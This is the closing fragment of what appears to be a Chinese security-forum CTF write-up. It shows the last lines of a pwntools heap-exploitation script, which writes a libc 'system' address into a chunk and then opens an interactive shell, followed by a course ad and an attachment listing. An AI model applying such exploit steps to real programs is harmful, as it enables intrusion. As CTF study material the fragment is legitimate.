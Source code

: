 ```
add_chunk(7, p64(libc_base + 0x2c080) + p64(libc.sym['system']))
 
# gdb.attach(p)
# pause()
 
shell()
 
p.interactive()

```

[[培训]《安卓高级研修班 (网课)》月薪三万计划，掌握调试、分析还原 ollvm、vmp 的方法，定制 art 虚拟机自动化脱壳的方法](https://www.kanxue.com/book-section_list-84.htm)

上传的附件：

*   [protobuf.zip](javascript:void(0)) （1.75MB，4 次下载）